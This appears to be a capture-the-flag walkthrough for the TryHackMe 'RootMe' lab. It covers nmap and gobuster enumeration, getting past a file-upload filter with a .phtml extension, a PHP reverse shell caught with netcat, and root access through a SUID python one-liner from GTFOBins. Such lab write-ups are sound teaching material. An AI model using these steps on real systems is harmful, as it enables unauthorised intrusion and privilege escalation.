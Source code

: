 # RootMe

[<img src=".Images/rootme.png" width="75">](https://tryhackme.com/room/rrootme)

*"A ctf for beginners, can you root me?"* -[ReddyyZ](https://tryhackme.com/p/ReddyyZ)

1. [Scan/Enumeration](#scan/enumeration)
2. [Gain Shell](#gain-shell)
3. [Privilege Escalation](#privilege-escalation)

******

## [Scan/Enumeration]

First of all, we can do nmap scan.

`nmap -A -oN rootme.nmap <ip>`

![rootme-2](.Images/rootme-2.png)

As you can see, SSH service is running on port 22 and Apache web server is running on port 80. For the web server, we can do directory scan with the gobuster. I will use [common.txt](https://github.com/v0re/dirb/blob/master/wordlists/common.txt) list for this scan.

`gobuster dir -u http://<ip>/ -w common.txt`

![rootme-3](.Images/rootme-3.png)

Especially the /panel and /upload directories look interesting. If we check these directories, we will see that the uploads directory is empty, and the panel directory is a page that allows us to upload files.
******

## [Gain Shell]

If we can access the files we uploaded here from the uploads directory, we can try the [php reverse shell](https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php). Let's try uploading a php file.

`touch gev.php`

![rootme-4](.Images/rootme-4.png)

We have learned that files with .php extensions are not allowed. To get rid of this problem, we can do a small search of duckduckgo. We can do a search like ["php file extensions"](https://www.lifewire.com/php-file-4138559). I found something in this search result: **"Some PHP Source Code files might use a different file extension like .PHTML, PHP3, PHP4, PHP5, PHP7 or PHPS."** We can try any one we want. I will try the phtml extension.

![rootme-5](.Images/rootme-5.png)
![rootme-6](.Images/rootme-6.png)

Yes it worked. Let's download [php_reverse_shell](https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php), write our own ip address and port and upload it to the site. If we run the file we uploaded from the /uploads directory while listening to the port with nc, we will get a shell.

`nc -nvlp <port>`

![rootme-7](.Images/rootme-7.png)
![rootme-8](.Images/rootme-8.png)

******

## [Privilege Escalation]

First of all, let's make shell more useful.

`export TERM=xterm`

`python -c 'import pty; pty.spawn("/bin/bash")'`

![rootme-9](.Images/rootme-9.png)

Now we can find the SUID files.

`find / -user root -perm -4000 -exec ls -ldb {} \; 2>/dev/null | grep /bin`

![rootme-10](.Images/rootme-10.png)

We found /usr/bin/python in SUID files. Let's take a look at [GTFOBins](https://gtfobins.github.io/gtfobins/python/). We can use SUID section.

`/usr/bin/python -c 'import os; os.execl("/bin/sh", "sh", "-p")'`

![rootme-11](.Images/rootme-11.png)

And now we are root user.
